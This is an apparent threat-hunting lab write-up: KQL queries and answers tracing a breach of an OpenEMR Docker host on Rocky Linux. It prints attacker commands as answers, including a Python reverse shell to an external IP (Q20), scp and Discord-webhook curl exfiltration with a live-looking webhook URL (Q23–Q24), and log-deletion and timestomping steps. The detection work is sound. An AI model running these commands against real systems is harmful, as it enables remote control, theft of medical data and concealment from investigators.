






# Hunt Notes — Rocky Clinic OpenEMR Breach

---

## Q01 — Asset Anchor

**Finding:** File events tied to the OpenEMR application directory carry the host FQDN. Rocky83 is the sole host generating events under `/html/openemr` and `/www/openemr` paths during the investigation window.

**Key Query:**
```kql
DeviceFileEvents
| where TimeGenerated between (datetime(2026-02-04) .. datetime(2026-02-14))
| where FolderPath has_any ("openemr", "html/openemr", "www/openemr", "htdocs/openemr")
| summarize count() by DeviceName, FolderPath
| order by count_ desc
```

**Answer:** `rocky83.zi5bvzlx0idetcyt0okhu05hda.cx.internal.cloudapp.net`



---

## Q02 — Hosting Model

**Finding:** Docker binaries directly on the host, `docker-compose` plugin, `docker-proxy`, and `containerd` mounts all confirmed. OpenEMR runs in a Docker container managed via `docker-compose`.

**Key Query:**
```kql
DeviceFileEvents
| where TimeGenerated between (datetime(2026-02-04) .. datetime(2026-02-14))
| where DeviceName has "rocky83"
| where FolderPath has "containerd" or FolderPath has "docker"
| summarize count() by FolderPath
| order by count_ desc
| take 10
```

**Stack:** `Azure VM → Docker (docker-compose) → OpenEMR container`

**Answer:** `Docker`



---

## Q03 — First Behavioural Tell

**Finding:** A single external logon from `37.19.221.234` on 2026-02-08 at 16:25 UTC — never returned. Immediately after logon, `w` was executed under `it.admin` to check active sessions. Classic first-action recon on an unfamiliar box.

**Key Query:**
```kql
let logons = DeviceLogonEvents
| where TimeGenerated between (datetime(2026-02-04T00:00:00) .. datetime(2026-02-14T18:00:00))
| where AccountName == "it.admin"
| where LogonType == "Network"
| where RemoteIP != ""
| project LogonTime = TimeGenerated, RemoteIP, DeviceName, AccountName;
DeviceProcessEvents
| where TimeGenerated between (datetime(2026-02-04T15:00:00) .. datetime(2026-02-14T17:00:00))
| where AccountName == "it.admin"
| where ProcessCommandLine has_any ("w", "who", "last", "-bash")
| join kind=leftouter (logons) on DeviceName, AccountName
| where LogonTime <= TimeGenerated
| summarize arg_max(LogonTime, RemoteIP, LogonTime) by TimeGenerated, ProcessId, DeviceName, AccountName, ProcessCommandLine, InitiatingProcessAccountName, InitiatingProcessCommandLine
| project TimeGenerated, ProcessId, DeviceName, AccountName, ProcessCommandLine, RemoteIP, LogonTime
| order by TimeGenerated asc
```

**IOCs:**
- External IP: `37.19.221.234`
- First command: `w`

**Answer:** PID `17507`


---

## Q04 — Session Boundary Fingerprint

**Finding:** After escalating to root via `sudo -i`, the last interactive operator action before session cleanup was a privileged `docker exec` querying the MariaDB audit log. The SHA256 identifies the exact binary.

**Key Query:**
```kql
DeviceProcessEvents
| where TimeGenerated between (datetime(2026-02-08T16:25:39) .. datetime(2026-02-08T23:59:59))
| where DeviceName has "rocky83"
| where AccountName in ("root", "it.admin")
| where InitiatingProcessCommandLine has_any ("-bash", "bash", "sudo -i")
| project TimeGenerated, ProcessId, FileName, ProcessCommandLine, SHA256, AccountName, InitiatingProcessCommandLine
| order by TimeGenerated asc
```

**Last command before logoff:**
```bash
docker exec -i -e MYSQL_PWD=*** openemr-mariadb mariadb -N -s -ur0ckyHealth -D r0ckyHealth -e "SELECT JSON_OBJECT(...) FROM log WHERE date > '2026-02-08 22:00:00'"
```

**Answer:** `a7b78ff3f501951cd8455697ef1b6dc1832ae42a9433926a8504d6ad719d729d`





---

## Q05 — Account Attribution

**Finding:** Grouping all remote logon successes by account name during the window and excluding routine internal IPs isolates `it.admin` as the account behind every suspicious external session.

**Key Query:**
```kql
DeviceLogonEvents
| where TimeGenerated between (datetime(2026-02-04) .. datetime(2026-02-14))
| where DeviceName has "rocky83"
| where LogonType == "Network"
| summarize LogonCount = count(), FirstSeen = min(TimeGenerated) by AccountName, RemoteIP
| order by LogonCount desc
```

**Answer:** `it.admin`



---

## Q06 — Environment Confirmation

**Finding:** A single `cat` command reads four `/etc` release files simultaneously — the operator's one-shot OS fingerprint of the Rocky Linux host.

**Key Query:**
```kql
DeviceProcessEvents
| where TimeGenerated between (datetime(2026-02-04T00:00:00) .. datetime(2026-02-14T00:00:00))
| where DeviceName has "rocky83"
| where ProcessCommandLine has "/etc/" and ProcessCommandLine has "release"
| project TimeGenerated, ProcessId, AccountName, FileName, ProcessCommandLine, InitiatingProcessCommandLine
| order by TimeGenerated asc
```

**Command observed:**
```bash
cat /etc/os-release /etc/redhat-release /etc/rocky-release /etc/system-release
```

**Answer:** `4`


---

## Q07 — Platform Reality Check

**Finding:** The EDR's `DeviceInfo` table records the OS distribution directly for every onboarded device.

**Key Query:**
```kql
DeviceInfo
| where DeviceName has "rocky83"
| where TimeGenerated between (datetime(2026-02-04T00:00:00) .. datetime(2026-02-14T00:00:00))
| project TimeGenerated, DeviceName, OSDistribution, OSVersion, OSPlatform
| take 1
```

**Answer:** `RockyLinux`



---

## Q08 — Crossing the Trust Line

**Finding:** From the `it.admin` shell, the operator issued `sudo -i` — a full interactive root shell, not a scoped `sudo` command. This is the privilege boundary crossing that unlocks all subsequent root-level actions.

**Key Query:**
```kql
let suspiciousSession = DeviceLogonEvents
| where TimeGenerated between (datetime(2026-02-08T16:00:00) .. datetime(2026-02-08T17:00:00))
| where DeviceName has "rocky83"
| where AccountName == "it.admin"
| where RemoteIP == "37.19.221.234"
| project LogonTime = TimeGenerated, DeviceName, AccountName;
DeviceProcessEvents
| where TimeGenerated between (datetime(2026-02-04T00:00:00) .. datetime(2026-02-14T00:00:00))
| where DeviceName has "rocky83"
| where AccountName == "it.admin"
| where InitiatingProcessCommandLine == "-bash"
| join kind=inner (suspiciousSession) on DeviceName, AccountName
| where TimeGenerated >= LogonTime
| project TimeGenerated, ProcessId, FileName, ProcessCommandLine, SHA256
| order by TimeGenerated asc
```

**Answer:** `sudo -i`


---

## Q09 — Runtime Layer Interrogation

**Finding:** Immediately after escalating, the operator ran `docker inspect openemr-mariadb` twice — on 2/6 and again on 2/9 — to retrieve the container's full configuration, network bindings, and environment variables before touching data.

**Key Query:**
```kql
DeviceProcessEvents
| where TimeGenerated between (datetime(2026-02-04T00:00:00) .. datetime(2026-02-14T23:59:00))
| where AccountName == "root"
| where ProcessCommandLine has "docker inspect"
| project TimeGenerated, ProcessId, AccountName, ProcessCommandLine, InitiatingProcessCommandLine
| order by TimeGenerated desc
```

**Answer:** `docker inspect openemr-mariadb`


---

## Q10 — The Single File That Explains Everything

**Finding:** The operator read `/etc/openemr/audit_export.env` — an automation config file outside the application directory that contains DB credentials valid across reboots. A follow-up `grep -q ^DB_PASS=` confirms they verified the password field was present.

**Key Query:**
```kql
DeviceProcessEvents
| where TimeGenerated between (datetime(2026-02-07T01:09:00) .. datetime(2026-02-07T01:15:00))
| where DeviceName has "rocky83"
| where AccountName == "root"
| project TimeGenerated, ProcessCommandLine, FolderPath, InitiatingProcessCommandLine, FileName
| order by TimeGenerated asc
```

**Timeline:**
- `1:11:54 AM` — `cat /etc/openemr/audit_export.env`
- `1:13:11 AM` — `grep -q ^DB_PASS= /etc/openemr/audit_export.env`

**Answer:** `cat /etc/openemr/audit_export.env`


---

## Q11 — Physical Mapping Confirmation

**Finding:** The operator ran `find /var/lib/docker/volumes -maxdepth 3 -type f` from a root interactive shell to physically enumerate all files in Docker volume storage — mapping what exists on disk before targeting a specific volume.

**Key Query:**
```kql
DeviceProcessEvents
| where TimeGenerated between (datetime(2026-02-04) .. datetime(2026-02-14))
| where DeviceName has "rocky83"
| where FileName == "find"
| where ProcessCommandLine has "docker"
| project TimeGenerated, AccountName, ProcessCommandLine, InitiatingProcessCommandLine
| order by TimeGenerated asc
```

**Answer:** `find /var/lib/docker/volumes -maxdepth 3 -type f`


---

## Q12 — Where the Data Actually Lives

**Finding:** Following the `find`, an `ls` of the volumes directory on 2026-02-09 at 17:03 UTC physically maps the MariaDB database to its host path.

**Key Query:**
```kql
DeviceProcessEvents
| where TimeGenerated between (datetime(2026-02-04) .. datetime(2026-02-14))
| where DeviceName has "rocky83"
| where ProcessCommandLine has "/var/lib/docker/volumes/r0ckyyy335_mariadb"
| project TimeGenerated, AccountName, ProcessCommandLine, InitiatingProcessCommandLine
| order by TimeGenerated asc
```

**Answer:** `/var/lib/docker/volumes/r0ckyyy335_mariadb_data/_data`


---

## Q13 — Hijacking a Trusted Repeating Path

**Finding:** `/opt/backup/scripts/backup_manifest.sh` was modified twice via `vim` on 2026-02-10 at 18:10–18:11 UTC. This script runs automatically as `svc.backup` without interactive logons — the operator injected staging logic into an existing trusted workflow instead of creating new automation.

**Key Query:**
```kql
DeviceFileEvents
| where TimeGenerated between (datetime(2026-02-04) .. datetime(2026-02-14))
| where DeviceName has "rocky83"
| where FolderPath has_any ("/opt/", "/usr/local/")
| where ActionType in ("FileModified", "FileCreated", "FileRenamed")
| project TimeGenerated, ActionType, FileName, FolderPath
| order by TimeGenerated asc
```

**Answer:** `/opt/backup/scripts/backup_manifest.sh`


---

## Q14 — Staging Where Nobody Looks First

**Finding:** `tar` and `gzip` events show archive creation under `/var/lib/integrations` — a path that looks like legitimate operational infrastructure and draws no immediate attention.

**Key Query:**
```kql
DeviceProcessEvents
| where TimeGenerated between (datetime(2026-02-04) .. datetime(2026-02-14))
| where DeviceName has "rocky83"
| where AccountName has_any ("it.admin", "root")
| where FileName in ("tar", "gzip", "zip", "cp", "rsync")
| project TimeGenerated, AccountName, ProcessCommandLine, InitiatingProcessCommandLine
| order by TimeGenerated asc
```

**Answer:** `/var/lib/integrations`


---

## Q15 — Quiet Persistence Obfuscation

**Finding:** Grouping all logon successes by account name surfaces `system` with 1092 logons on a Linux host. On Rocky Linux, `system` is not a real local account — it's a Windows concept (NT AUTHORITY\SYSTEM). Its presence is the anomaly.

**Key Query:**
```kql
DeviceLogonEvents
| where TimeGenerated between (datetime(2026-02-04) .. datetime(2026-02-14))
| where DeviceName has "rocky83"
| where ActionType == "LogonSuccess"
| summarize LogonCount = count() by AccountName
| order by LogonCount asc
```

**Answer:** `system`


---

## Q16 — Identity Creation Without Footprints

**Finding:** The operator used `vipw` — the low-level `/etc/passwd` and `/etc/shadow` editor — to write the rogue `system` account directly into the identity files, bypassing `useradd`/`adduser` which generate dedicated audit events.

**Key Query:**
```kql
DeviceProcessEvents
| where TimeGenerated between (datetime(2026-02-04) .. datetime(2026-02-14))
| where DeviceName has "rocky83"
| where ProcessCommandLine has "vipw"
| project TimeGenerated, SHA256, FileName, FolderPath, ProcessCommandLine
| take 5
```

**Answer:** `dbb794466563134e5119efa47fd41c4ffb31a8104b59bba11eb630f55238abd0`


---

## Q17 — Secondary Non-Interactive Persistence

**Finding:** A new unit file under `/etc/systemd/system/` was created during the investigation window. `integration-monitor.service` fires without any interactive logon, surviving reboots and running as a system-level process.

**Key Query:**
```kql
DeviceFileEvents
| where TimeGenerated between (datetime(2026-02-04) .. datetime(2026-02-14))
| where DeviceName has "rocky83"
| where FolderPath has "/etc/systemd/system"
| where ActionType in ("FileCreated", "FileModified")
| project TimeGenerated, ActionType, FileName, FolderPath, InitiatingProcessFileName, InitiatingProcessCommandLine
| order by TimeGenerated asc
```

**Answer:** `integration-monitor.service`


---

## Q18 — No Editor File Creation

**Finding:** The service unit file was written using `cat` (stdout redirect) rather than `vim`, `nano`, or any interactive editor. This leaves no `~`-suffix swap file artifacts and generates minimal process telemetry.

**Answer:** `cat`


---

## Q19 — Pre-Activation Integrity Check

**Finding:** The service file has two distinct SHA256 values across its lifetime — one at creation, one after a `vim` edit. The version active when `systemctl start` was run corresponds to the first SHA256, captured before the later modification.

**Key Query:**
```kql
DeviceFileEvents
| where TimeGenerated between (datetime(2026-02-04) .. datetime(2026-02-14))
| where DeviceName has "rocky83"
| where FileName == "integration-monitor.service"
| project TimeGenerated, SHA256, ActionType, FileName, InitiatingProcessFileName, InitiatingProcessCommandLine
| order by TimeGenerated asc
```

**Answer:** `f71ea834a9be9fb0e90c7b496e5312072fffedf1d1c0377957e05714bdac37b8`


---

## Q20 — Outbound Control Command

**Finding:** At 2026-02-11 04:16 UTC, `systemd` spawned a Python3 one-liner establishing a reverse shell. The command connects outbound to `20.62.27.80:443`, then duplicates the socket to stdin/stdout/stderr before calling `/bin/sh -i`.

**Key Query:**
```kql
DeviceProcessEvents
| where TimeGenerated between (datetime(2026-02-11T04:16:00) .. datetime(2026-02-11T05:00:00))
| where DeviceName has "rocky83"
| where InitiatingProcessFileName == "systemd"
| where ProcessCommandLine has_any ("python", "bash", "nc", "sh", "curl", "wget")
| project TimeGenerated, AccountName, FileName, ProcessCommandLine, InitiatingProcessCommandLine
| order by TimeGenerated asc
```

**Answer:**
```bash
/usr/bin/python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("20.62.27.80",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```


---

## Q21 — Reverse Shell Process Identification

**Finding:** The Python reverse shell spawned `/bin/sh -i` as a subprocess at 04:18:21 UTC — two minutes after the initial connection. PID 8000 is the interactive session that received operator keystrokes.

**Key Query:**
```kql
DeviceProcessEvents
| where TimeGenerated between (datetime(2026-02-11T04:16:00) .. datetime(2026-02-11T05:00:00))
| where DeviceName has "rocky83"
| where AccountName == "it.admin"
| where ProcessCommandLine has "-i"
| where FileName in ("sh", "bash", "dash")
| project TimeGenerated, ProcessId, FileName, ProcessCommandLine, InitiatingProcessFileName, InitiatingProcessCommandLine
| order by TimeGenerated asc
```

**Answer:** PID `8000`


---

## Q22 — Staged Archive Identification

**Finding:** Network transfer events reference the archive filename directly in the `scp` and `curl` command lines, linking the staged file to the exfil attempt.

**Key Query:**
```kql
DeviceProcessEvents
| where TimeGenerated between (datetime(2026-02-11T04:00:00) .. datetime(2026-02-11T06:00:00))
| where DeviceName has "rocky83"
| where ProcessCommandLine has_any ("scp", "sftp", "rsync", "curl", "wget", "nc")
| where AccountName == "it.admin"
| project TimeGenerated, FileName, ProcessCommandLine, InitiatingProcessCommandLine
| order by TimeGenerated asc
```

**Answer:** `integration_state_2026-02-10_22-00-01.tar.gz`


---

## Q23 — First Exfiltration Attempt

**Finding:** The operator attempted `scp` to push the archive directly to the C2 host as user `streetrack`. Network controls blocked the connection, leaving a failed network event in the telemetry.

**Answer:**
```bash
scp integration_state_2026-02-10_22-00-01.tar.gz streetrack@20.62.27.80:/home/streetrack/
```


---

## Q24 — Successful Exfiltration Pivot

**Finding:** After `scp` failed, the operator pivoted to `curl` POSTing the archive to a Discord webhook — legitimate SaaS traffic that blends with normal HTTPS and bypasses network controls targeting direct SSH/SCP.

**Key Query:**
```kql
DeviceProcessEvents
| where TimeGenerated between (datetime(2026-02-11T04:20:00) .. datetime(2026-02-14T00:00:00))
| where DeviceName has "rocky83"
| where FileName == "curl"
| where ProcessCommandLine !has "127.0.0.1"
| where ProcessCommandLine !has "localhost"
| project TimeGenerated, AccountName, ProcessCommandLine, InitiatingProcessCommandLine
| order by TimeGenerated asc
```

**Answer:**
```bash
curl -F file=@integration_state_2026-02-10_22-00-01.tar.gz https://discord.com/api/webhooks/1471960320636620832/he162lRQsMJ3kKOVBNeiHYutbubwZ0sC-vq7A_phLZx-q4VOS88q4xDOvhxrBqy6nu9K
```


---

## Q25 — Exfil Endpoint

**Finding:** Network events for the `curl` process show the resolved IP for the Discord webhook. Discord's CDN infrastructure (`162.159.x.x` — Cloudflare) handled the upload over port 443.

**Key Query:**
```kql
DeviceNetworkEvents
| where TimeGenerated between (datetime(2026-02-13T20:00:00) .. datetime(2026-02-13T21:00:00))
| where DeviceName has "rocky83"
| where InitiatingProcessFileName == "curl"
| project TimeGenerated, ActionType, RemoteIP, RemotePort, RemoteUrl, InitiatingProcessCommandLine
| order by TimeGenerated asc
```

**Answer:** `162.159.135.232:443`


---

## Q26 — Selective Log Erasure

**Finding:** Between 16:13–16:16 UTC on 2026-02-11, the operator ran 12 `sed -i` delete operations targeting specific patterns across `/var/log/secure` and `/var/log/messages` — surgical removal of their own activity, not a full wipe.

**Key Query:**
```kql
DeviceProcessEvents
| where TimeGenerated between (datetime(2026-02-11T16:13:00) .. datetime(2026-02-11T16:16:00))
| where DeviceName has "rocky83"
| where FileName == "sed"
| where ProcessCommandLine has_any ("/var/log/secure", "/var/log/messages")
| project TimeGenerated, AccountName, ProcessCommandLine
| order by TimeGenerated asc
```

**Answer:** `12`


---

## Q27 — Log Manipulation Primitive

**Finding:** All 12 log manipulation operations used `sed` with the `-i` (in-place) flag and `/pattern/d` (delete matching lines) syntax — the canonical Linux tool for in-place text manipulation without opening an editor.

**Answer:** `sed`

---

## Q28 — Timeline Distortion

**Finding:** After deleting lines with `sed`, the operator used `touch -t` to backdate `/var/log/messages` to a timestamp predating their activity, blurring causality for anyone reviewing file modification times.

**Key Query:**
```kql
DeviceProcessEvents
| where TimeGenerated between (datetime(2026-02-04) .. datetime(2026-02-14))
| where DeviceName has "rocky83"
| where ProcessCommandLine has "/var/log/messages"
| where FileName in ("touch", "timestomp")
| project TimeGenerated, AccountName, ProcessCommandLine
| order by TimeGenerated asc
```

**Answer:** `2026-02-06 12:00:00`


---

## Q29 — Cleanup Alert Classification

**Finding:** The EDR autonomously detected the timestamp modification and raised an alert classifying the technique. The `AttackTechniques` field in `AlertEvidence` carries the exact classification strings.

**Key Query:**
```kql
AlertEvidence
| where TimeGenerated between (datetime(2026-02-04) .. datetime(2026-02-14))
| where DeviceName has "rocky83"
| where Title has "timestamp"
| project TimeGenerated, Title, AttackTechniques, AlertId
```

**Answer:** `["Indicator Removal (T1070)","Timestomp (T1070.006)"]`


